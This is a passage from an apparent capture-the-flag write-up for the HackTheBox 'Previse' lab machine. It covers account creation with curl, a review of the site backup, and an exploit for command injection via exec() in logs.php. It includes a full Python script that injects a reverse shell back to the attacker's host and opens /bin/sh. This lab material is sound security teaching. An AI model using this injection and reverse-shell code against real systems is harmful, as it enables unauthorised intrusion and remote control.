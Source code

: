 ```bash
curl -X POST --data "username=strix&password=strix&confirm=strix&submit=true" --proxy 127.0.0.1:8080 http://10.10.11.104/accounts.php
```

Our account should now be created.

# Foothold:

We now get to have access to all of the pages that we were able to discover through FFuF. Interestingly, we have a file management section, in `/files.php`.

![Untitled](/assets/2022-01-08-hackthebox-previse/Untitled%204.png)

We can download the `sitebackup.zip` and examine the contents of the site:

```bash
kali@kali:~/htb//assets/2022-01-08-hackthebox-previse/siteBackup$ ls
accounts.php  download.php   files.php   header.php  login.php   logs.php  status.php
config.php    file_logs.php  footer.php  index.php   logout.php  nav.php
```

Looking into the files, there are a number of possible vectors to look at, the first one being inside of the `logs.php` file.

```php
$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}"); // We have direct access to the inside of an exec function.
```

From there, it is easy to understand what we have to do, we can simply inject a reverse shell and obtain the foothold from there. PayloadAllTheThings has a lot of [reverse shells available](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). I chose to use one of the python ones, because the snippet above shows that the victim system has python installed:

```python
import requests;

rs = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",3000));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);subprocess.call(["/bin/sh","-i"])'"""
payload = "; {}".format(rs)
base_url = "http://10.10.11.104/"
login_url = base_url + "login.php"
logs_url = base_url + "logs.php"

login_body = {
        "username": "strix",
        "password": "strix",
}

r = requests.session()
headers = {
        'User-Agent' : "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/534.30 (KHTML, like Gecko) Ubuntu/11.04 Chromium/12.0.742.112 Chrome/12.0.742.112 Safari/534.30"
}

logs_data = {
        "delim": payload
}

login_res = r.post(login_url, data=login_body)
logs_res = r.post(logs_url, data=logs_data, headers=headers)
```
